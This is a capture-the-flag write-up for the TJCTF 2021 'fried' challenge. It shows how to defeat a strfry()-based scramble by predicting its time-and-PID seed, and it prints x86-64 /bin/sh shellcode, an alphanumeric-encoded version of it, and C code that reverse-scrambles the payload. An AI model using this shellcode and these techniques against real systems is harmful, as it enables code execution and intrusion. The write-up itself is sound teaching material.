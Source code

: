 # TJCTF 2021 - Writeup: fried

This was a fun challenge, especially because we got first blood on it :-)


 ![Challenge Web](images/challenge-web.png)


The challenge was form of a binary named <code>chall</code>

After importing the binary into Ghidra, the following code is found in the main()-function

 ![main](images/main.png)

In short the code does the following:
1. Allocate 4096 bytes of memory
2. Read 4096 bytes from stdin into that memory
3. Validate that all read bytes are between 0x30 and 0x7e which mainly represents alphanumeric characters
4. Use the function strfry() to scramble the read bytes
5. Execute the now scrambled bytes :-P

My first thought was to see if i could find some win()-function and spray the memory with a couple of bytes that would jump to that function, but alas no such function could be found.

So I turned to see if the strfry()-function was predictable. The function was as follows:

 ![main](images/strfry.png)

 In the beginning of the function __initstate_r()-function is called and are using the current time in epoch xor:ed with the current pid. The current time shouldn't be much of a problem. This is a common CTF-scenario and there are usually only at most a few seconds difference between the CTF-server and "my" computer.

 The pid of the current process could have be a problem, but because the CTF-infrastructure is using containers, the pid is actually always 1 :-)

Okey, so we should be able to handle the scrambling-part. Then, what to send in.

With the awesome pwntools it's easy to generate some shellcode. 

```bash
 shellcraft amd64.linux.sh -f escaped
```
this generates the following escaped string:
```bash
"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
```

Now this wont work. Only alphanumerics allowed.

I tried using the pwnlib-function: pwnlib.encoders.encoder.alphanumeric(...), but i couldn't get that to work, so I found another encoder called [AE64](https://github.com/veritas501/ae64)

Using that I could create a working payload with the following code:

```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

shellcode = asm(shellcraft.sh())

enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode())
```

This generates the following:
<pre>
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP
</pre>

Okey, so now to handle the scrambling.
I created to following C code to reverse-scramble the data:

```C
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

char *
strfry (char *string, int drift)
{
    static int init;
    static struct random_data rdata;
    if (!init)
    {
        static char state[32];
        rdata.state = NULL;
        time_t now = time ((time_t *) NULL);
        now += drift;
        
        initstate_r (now ^ 1, state, sizeof (state), &rdata);
        init = 1;
    }

    size_t len = strlen (string);

    int pos[0x1000];

    if (len > 0)
    {
        // Generate scramble swaps and put them in a list
        for (size_t i = 0; i < len - 1; ++i)
        {
            int32_t j;
            random_r (&rdata, &j);
            j = j % (len - i) + i;
            pos[i] = j;
        }
        // Apply changes in the reverse order
        for (size_t i = len-2; i >= 0; --i)
        {
            int j = pos[i];
            char c = string[i];
            string[i] = string[j];
            string[j] = c;
            if (i == 0) break;
        }
    }
    return string;
}

void main(int argc, char **argv) {
    // accept drift seconds as parameter
    int drift = atoi(argv[1]);
    char mem[0x1001];
    for (int i=0;i<0x1000;i++)mem[i] = 'A';
    char *shellcode = "WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP";
    int shellcode_len = strlen(shellcode);
    for (int i=0;i<shellcode_len;i++)mem[i] = shellcode[i];
    mem[0x1000] = 0;
    strfry(mem, drift);
    puts(mem);
} 
```

This now generates a payload that is reverse scrambled so that it becomes correct when the challenge scrambles it.

![gen](images/gen.png)

So now we just have to use it.
Had to try a couple of drift seconds, but then! Woop! :-)

![gen](images/xpl.png)

A really nice challenge. Thanks <b>kfb</b>
